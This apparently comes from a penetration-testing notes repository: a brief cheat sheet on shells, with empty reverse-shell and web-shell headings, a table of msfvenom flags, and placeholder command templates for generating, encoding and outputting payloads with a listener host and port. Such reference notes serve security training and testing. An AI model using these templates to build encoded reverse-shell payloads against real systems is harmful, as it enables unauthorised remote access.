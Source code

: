 # Shells

## Reverse-Shells

## Web-Shells

## Msfvenom

### Flags

|                                            |               |
| ------------------------------------------ | ------------- |
| -a : architecture                          | -n : nopsled  |
| -b : bad chars                             | -o : outfile  |
| -e : encoder                               | -p : payload  |
| -f : file format (--help-formats for list) | -x : template |
| -i : iterations for encoding

### Usage

#### Basic

``` sh
msfvenom -p <payload> LHOST=<local-ip> LPORT=<local-port>
```

#### Encoded

``` sh
msfvenom ... -e <encoding> -i <iterations>
```

#### Ouput

``` sh
msfvenom ... -f <format> -o <filename>
```
